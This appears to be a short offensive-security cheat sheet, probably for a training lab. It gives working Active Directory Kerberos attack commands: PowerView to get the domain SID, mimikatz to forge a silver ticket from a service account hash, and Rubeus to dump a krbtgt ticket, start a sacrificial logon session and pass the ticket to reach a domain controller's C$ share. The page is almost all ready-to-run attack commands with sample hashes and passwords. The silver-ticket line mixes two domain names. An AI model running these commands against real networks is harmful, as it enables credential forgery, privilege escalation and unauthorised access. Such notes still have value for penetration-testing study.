 ### <mark style="color:yellow;">Silver Ticket from Windows</mark>

```powershell
# Get SID
Import-Module .\PowerView.ps1
Get-DomainSID
```

Create silver ticket. Need hash of Service Account

```powershell
.\mimikatz.exe privilege::debug "kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /user:Administrator /service:CIFS /target:SQL01.zencorp.local /ptt" exit
```

### <mark style="color:yellow;">Sacrificial Processes</mark>

{% hint style="info" %}
A Sacrificial Process creates a new Logon Session, isolating manipulated tickets and preventing impact on critical sessions, so its safer than causing outage. Needs admin rights
{% endhint %}

Check all tickets and extract a krbtgt/ZENCORP.LOCAL service TGT

```powershell
.\Rubeus.exe triage
```

Extract ticket using LUID

```powershell
.\Rubeus.exe dump /luid:0xc2cd0 /service:krbtgt /nowrap
```

Use createnetonly to create sacrificial process.

```powershell
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Authenticated
.\Rubeus.exe createnetonly /program:powershell.exe /username:holly /password:'Password123!' /domain:zencorp.local /show
```

Within new cmd window

```powershell
Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA<SNIP> /ptt
dir \\dc01\\c$
```
